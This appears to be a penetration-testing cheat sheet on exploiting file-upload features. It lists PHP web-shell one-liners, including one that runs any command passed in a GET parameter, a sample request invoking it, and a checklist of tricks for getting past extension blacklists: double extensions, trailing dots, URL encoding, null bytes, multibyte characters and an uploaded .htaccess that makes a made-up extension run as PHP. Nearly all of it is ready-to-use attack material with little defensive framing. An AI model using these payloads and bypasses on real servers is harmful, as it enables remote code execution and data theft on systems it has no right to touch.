 `<?php echo file_get_contents('/path/to/target/file'); ?>`
`<?php echo system($_GET['command']); ?>`
`GET /example/exploit.php?command=id HTTP/1.1`

# Checklist
- Directory Traversal Upload
- Extension blacklist bypass
	- `.htaccess` -> `ddType application/x-httpd-php .l33t`
		- Executes `.l33t` as PHP
- Provide multiple extensions
	- `exploit.php.jpg`
- Add trailing characters
	- `exploit.php.`
- URL encoding (or double URL encoding)
	- `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters
	- `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Multibyte unicode characters
	- `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`
		- if parsed as UTF-8
- Obfuscate
	- `exploit.p.phphp`

### Extension blacklist bypass
- Change the value of the `filename` parameter to `.htaccess`.
- Change the value of the `Content-Type` header to `text/plain`.
- Replace the contents of the file (your PHP payload) with the following Apache directive:
    
    `AddType application/x-httpd-php .l33t`
    
    >This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.
    
- Upload `exploit.l33t` as PHP webshell